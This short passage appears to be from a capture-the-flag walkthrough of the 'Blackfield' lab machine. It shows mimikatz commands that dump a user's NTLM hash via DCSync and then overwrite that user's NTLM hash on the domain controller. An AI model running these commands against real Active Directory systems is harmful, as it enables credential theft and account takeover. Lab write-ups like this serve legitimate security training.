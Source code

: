 Got the NTLM hash of the old password using mimikatz.

```powershell
./mimikatz.exe "lsadump::dcsync /user:audit2020" "exit"
```
![]({{page.assets_path}}/018.png)

Then set the ntlm (`ntlm- 1`) to the user `audit2020`.

```powershell
./mimikatz.exe "lsadump::setntlm /server:dc01.blackfield.local /user:audit2020 /ntlm:600a406c2c1f2062eb9bb227bad654aa" "exit"
```
![]({{page.assets_path}}/019.png)
